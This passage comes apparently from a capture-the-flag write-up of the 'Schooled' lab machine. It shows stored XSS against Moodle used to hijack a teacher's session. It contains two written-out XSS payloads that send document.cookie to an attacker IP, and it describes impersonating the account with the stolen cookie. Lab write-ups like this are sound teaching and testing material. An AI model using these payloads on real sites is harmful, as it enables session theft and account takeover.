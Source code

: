 
In order to test the theory, I created a simple XSS payload:
```html
<img src="http://10.10.14.157/?cookie="+ document.cookie />
```

Unfortunately, that payload did not return the cookie, so I changed the field to look for any errors:

```html
<img src=undefined onerror=this.src='http://10.10.14.157/?cookie='+document.cookie>
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Schooled/img6.png"  style="width: 80%" />
</p>


Success! I now had the MoodleSession for `Manuel Phillips`. Using this session key, I was able to log in to the application and impersonate the `teacher` role. 


### Exploiting the Teacher Role

Once I edited the cookie and refreshed the page, I was authenticated as the teacher:


<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Schooled/img7.png"  style="width: 80%" />
</p>


With access to the teacher role, I still didn't know the password so the RCE exploit would not be possible at this point. I needed to figure out another method so I started by looking for ways with which I could escalate my privileges. The following blog posts describes such a method: <https://www.cybersecurity-help.cz/vulnerabilities/31682/>.
